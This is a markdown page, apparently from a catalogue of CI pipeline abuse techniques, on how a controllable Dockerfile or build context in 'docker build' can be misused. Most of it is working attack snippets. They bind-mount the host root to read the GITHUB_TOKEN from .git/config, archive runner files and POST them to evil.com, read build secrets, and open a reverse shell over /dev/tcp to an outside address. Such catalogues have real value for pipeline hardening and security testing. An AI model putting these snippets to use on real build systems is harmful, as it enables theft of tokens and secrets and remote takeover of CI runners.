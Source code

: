 ```yaml
---
title: docker
tags:
  - cli
  - config-file
  - eval-sh
references: 
  - https://docs.docker.com/reference/dockerfile/
  - https://docs.docker.com/build/concepts/dockerfile/
files: [Dockerfile]
---
```


`docker` is a container tool for creating OCI images and running containers. A Dockerfile can be used to configure the build stage.
`docker build <path>` is strongly limited to the build context. No modification can be done to the file system.

Exfiltrate **GITHUB_TOKEN**
```Dockerfile
RUN --mount=type=bind,source=/,target=/host \
    cat /host/.git/config
```

If the context path is controllable `docker build <controlled_path> -f <Dockerfile>`, any data from the runner is exfiltrable.
```Dockerfile
RUN --mount=type=bind,source=/,target=/host \
    tar -czf /src.tar.gz /host/* ; \
    curl -X POST -d "/src.tar.gz" http://evil.com
```

Exfiltrate runner secrets, if secrets are used: `docker build --secret id=mysecret,src=secretFile .`
```Dockerfile
RUN --mount=type=secret,id=mysecret \
    cat /run/secrets/mysecret
```

The image can be modified for RCE on the creation of the container:
```Dockerfile
FROM linuxserver/openssh-server
FROM myorg/evil 
RUN sh -i >& /dev/tcp/10.10.0.2/443 0>&1
```
